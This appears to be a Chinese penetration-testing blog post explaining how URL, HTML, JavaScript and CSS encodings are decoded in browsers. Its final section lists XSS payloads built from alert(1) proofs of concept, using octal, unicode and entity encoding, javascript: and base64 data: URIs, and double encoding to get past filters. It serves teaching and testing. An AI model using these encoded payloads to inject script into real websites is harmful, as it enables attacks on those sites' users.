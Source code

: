 ```yaml
---
draft: false
date: 2017-03-30 15:25:37
title: XSS 中的编码
description: 
categories:
  - Pentest
tags:
  - xss
---
```


![攻壳机动队](/img/anime/anime006.jpg)

### 0x00 浏览器解析
```
浏览器收到服务器发来的HTML内容，会从头解析，遇到<script></script>时，
会调用js脚本解析器来解析并执行脚本，然后继续解析其他的HTML内容，
对于需要触发才能执行的事件，当事件触发时脚本解析器才会解析其中的脚本，
在这之前它是HTML的一部分
```

### 0x01 一些编码
* URL编码
```
%+字符的ASCII编码对应的两位十六进制，如"/"的url编码为"%2F"
```

* HTML编码
    * 实体编码
    ```
    &开头分号结尾，如 "<" 的编码是 "&lt;"
    ```

    * 字符编码
    ```
    样式为"&#数值;"，数值可为10进制、16进制ASCII编码或unicode字符编码
    如"<"可编码为"&#060;"和"&#x3c;"，但是必须在属性值里面
    ```

* JS编码
```
1、两个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\x3c"
2、三个八进制数字，如果不够个数，前面补0，例如"<"编码为"\074"
3、四个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\u003c"
4、对于一些控制字符，使用特殊的C类型的转义风格（例如\n和\r）
```

* CSS编码
```
反斜线(\)后跟1~6位的16进制数字，如"e"为"\65"或"65"或"00065"
```

### 0x02 编码与解码顺序
解码时先解码最外层，编码时先编码最内层
```html
如<td onclick="openUrl(add.do?userName='{$value}');">11</td>，
首先value出现在url中，而url在js中，而js又是html一部分，所以
解码顺序为：html解码->js解码->url解码
编码顺序为：url编码->js编码->html编码
```

### 0x03 利用
* 八进制
```
<p id="test"></p>
<script type="text/javascript">
var test = "\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\61\51\76";
var p = document.getElementById('test'); #这里会进行js解码
p.innerHTML = test;
</script>
```

* 十进制和十六进制
```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)">
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

* javascript协议
```
<a href="javascript:alert(1)">xxx</a>
```

* data协议
```
<a href="data:text/html,<script>alert(1)</script>">xxxxxx</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">111</a>
<meta http-equiv="refresh" content="x;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

* html5新增实体编码
```
<a href="javasc&NewLine;ript&colon;alert(1)">aaaa</a>
```

* 多次编码
```
点击后跳转到url，进行url解码
<a href="javascript:%61lert(1)">xxxx</a>
先最外围的html解码，然后href里的url解码
<a href="j&#x0061;vascript:&#x25;61lert(1)">click me</a>
```